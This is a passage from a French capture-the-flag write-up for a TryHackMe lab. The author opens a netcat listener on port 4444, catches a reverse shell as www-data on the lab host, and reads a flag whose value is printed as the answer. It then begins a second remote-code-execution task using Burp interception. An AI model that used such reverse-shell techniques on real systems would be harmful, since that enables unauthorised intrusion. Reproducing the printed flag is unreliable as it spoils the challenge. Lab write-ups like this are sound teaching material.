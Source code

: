 On écoute sur le port 4444 pour avoir un shell.   

On enregistre les modifications.   
Puis on regarde le résultat.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 4444
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.6.183.
Ncat: Connection from 10.10.6.183:60622.
Linux af11c847d4c7 4.15.0-135-generic #139-Ubuntu SMP Mon Jan 18 17:38:24 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 18:29:16 up  3:13,  0 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cat flag.txt
{b42d2f1ff39874d56132537be62cf9e3}
```

On obtient notre shell et on lit le flag à la racine.  
La réponse : {b42d2f1ff39874d56132537be62cf9e3}    

**Second RCE flag**

![page34](./Task1-34.png)

On fait une commande, on met burp en mode intercepte pn clique sur PDF Receipt.    
